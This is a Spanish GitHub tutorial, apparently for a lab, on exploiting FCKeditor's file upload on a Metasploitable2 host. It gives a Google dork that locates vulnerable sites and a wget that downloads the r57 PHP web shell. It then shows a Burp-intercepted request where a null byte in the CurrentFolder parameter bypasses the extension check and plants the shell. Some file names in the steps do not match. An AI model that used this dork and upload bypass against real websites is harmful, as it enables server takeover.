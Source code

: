 
# Vulnerabilidad en Control a partir de una ubicación de un dork
Descargar la imagen desde  https://drive.google.com/file/d/1UoC4w8T3pBgrvkitHCUdzgTS2Uk8d1L0/view

## FCKeditor 

El FCKEditor es un editor de texto Open Source del tipo WYSIWYG (What you see is what you get), muy parecido a editores ya conocidos como MS Word o el propio Google Docs. Lo interesante de este editor es que no necesita instalación alguna en el cliente: se basa en el servicio HTTP, es decir, a través de un browser, el usuario puede crear y modificar documentos de texto que luego pueden ser exportados y descargados. Este editor es compatible con la gran mayoría de navegadores conocidos incluyendo a Internet Explorer, Firefox, Safari, Opera y Netscape.

![image](https://user-images.githubusercontent.com/50930193/167024936-42353524-36ca-42d8-99a1-e4fe5224165f.png)

FCKeditor se basa en un núcleo escrito en JavaScript, pero, tambíén es implementado con tecnologías de lado servidor como Asp, Asp.net, Java, PHP, entre otros. Es así que este editor se convierte en una opción para aquel administrador de red que necesite implementar este tipo se soluciones en sus organizaciones.

## Vulnerabilidad y Escenario (Búsqueda desde OSINT)

Se asume que un sitio web, http://www.vulnerable.com, tiene instalado el producto FCKeditor con una isntalación por defecto.  La vulnerabilidad consiste emplear la mala configuración de una instalación de FCKeditor.  Para ello, se hace uso de la opción de carga (upload) de archivos de este producto. 

FCKEditor incluye un paquete ‘filemanager’, el cual permite a los desarrollares web incluir en las aplicaciones que desarrollen un módulo de upload el cual se pone a disposición de los usuarios finales. 

## OSINT
Ubicar fckeditor
```
inurl:/editor/editor/filemanager/upload/
```
En el caso de aplicaciones web con PHP, un archivo relevante para explotar esa vulnerabilidad es el archivo ‘upload.php’o ‘uploadtest.html’, el cual está disponible en la siguiente localización.
```
www.vulnerable.com/editor>/editor/filemanager/connectors/php/upload.php
```
Si ejecutan el dork combinado con otras característica en google les dará el siguiente resultado  

![image](https://user-images.githubusercontent.com/50930193/167029067-172c67d4-6f39-4b3f-817b-ce8a76c990bf.png)


## RECONOCIMIENTO y ENUMERACIÓN

Cargar la página que permite ejecutar la vulnerabilidad, en este caso utilicemos la IP de la maquina metasploitable2
```
http://192.168.109.171/fckeditor/editor/filemanager/connectors/uploadtest.html
```
![image](https://user-images.githubusercontent.com/50930193/167029598-8add822e-f691-4d57-b748-853616ac9415.png)

Determinar el servidor web y posible lenguaje de programación soportado, utilice wappalizer

![image](https://user-images.githubusercontent.com/50930193/167030373-ee09482e-8123-43ab-bee9-c684c45d1d21.png)

Uno de los datos que es necesario saber es el lenguaje de programación que hay detrás del servidor vulnerable. 
![image](https://user-images.githubusercontent.com/50930193/167030476-994b3c1b-3f2d-4625-a494-8acbefb9abf5.png)

Luego, ingresar los parámetros del formulario, en ese sentido, seleccionar de la lista ‘File Uploader’ el element PHP, ‘Resource Type’ el element  File y finalmente ingresa un archivo png 

![image](https://user-images.githubusercontent.com/50930193/167031058-ad74507a-9254-4570-8ecb-1fa3652c54a4.png)

 Presiona el botón de Send to Server, luego del cual siempre y cuando el sitio es vulnerable se mostrara el siguiente mensaje.

 ![image](https://user-images.githubusercontent.com/50930193/167031480-d08e5733-3828-4e78-b5c4-762f14f2591a.png)

Ahora se puede revisar el archivo que se ingreso
```
http://192.168.109.171/userfiles/hacked1.png
```
![image](https://user-images.githubusercontent.com/50930193/167031694-90314502-c6f7-4c48-96cc-98d1eb194de4.png)

## Subir Archivos Scripts que permitirían controlar el servidor

A sabiendas que es posible subir al servidor archivos, considerar que se pueden subir archivos php el cual 
permitirán la ejecución del comandos en el servidor, si se intenta subir un archivo php notarán que se 
muestra la siguiente pantalla. Considere el archivo **helloworld.php** para cargarlo

FILE:helloworld.php
```
<?php
echo 'Hello World';
?>
```
Intente cargar el archivo

![image](https://user-images.githubusercontent.com/50930193/167035314-53227742-f653-45df-95ec-9941e49cab67.png)

Eso quiere decir que en el servidor se valida información y no permite la carga de dicho archivo

Vamos a intentar emplear una técnica de cambio de datos en la cabecera para bypasear el control, pero antes descarguemos una web shell

```
wget https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/php/r57.php

```
![image](https://user-images.githubusercontent.com/50930193/167035978-a8bd0c34-ea95-48d7-96c5-d2b5b30e1755.png)

Manos a la obra, renombre **r57.php** a **r57.txt** 
```
cp r57.php r57.txt
```
Ahora intente cargar el archivo **c99.txt** y cargue el archivoteniendo en cuenta que “intercept” en el burp esté activo, en el 
Burpsuite elija proxy y luego intercept y verás esta pantalla

![image](https://user-images.githubusercontent.com/50930193/167036644-a63abaf0-cc6c-476c-9a26-d7a3cf33888b.png)

Para cargar el archivo se deberá renombrar la cadena del POST de la siguiente manera:

Dice:
```
/filemanager/connectors/php/upload.php?time=1497572358682&CurrentFolder=/ HTTP/1.1
```
Debe decir
```
/filemanager/connectors/php/upload.php?time=1497572358682&CurrentFolder=t1.php%00/ HTTP/1.1
```

![image](https://user-images.githubusercontent.com/50930193/167039782-0481181a-348f-4f8f-b80c-ddb6ddc92a9d.png)

Dar clic en el botón de “forward” (varias veces) y luego desactivar “Interceptn”

9.	Le aparecerá la ruta sonde se grabó y saldrá un mensaje de alerta que diga que el archivo fue cargado sin errores

![image](https://user-images.githubusercontent.com/50930193/167039254-65a32194-dd20-4057-b274-345c550287fb.png)


Ud. Puede ingresar a la ruta
```
192.168.109.171/userfiles/t2.php
```
11.	Revisará que la Shell fue ingresada al sitio

![image](https://user-images.githubusercontent.com/50930193/167039142-65bb27f4-bc25-400f-bf06-67449ffc012e.png)


12.	Si emplea esto con un sitio de Internet recuerde de evitar un perjuicio para dicha entidad.
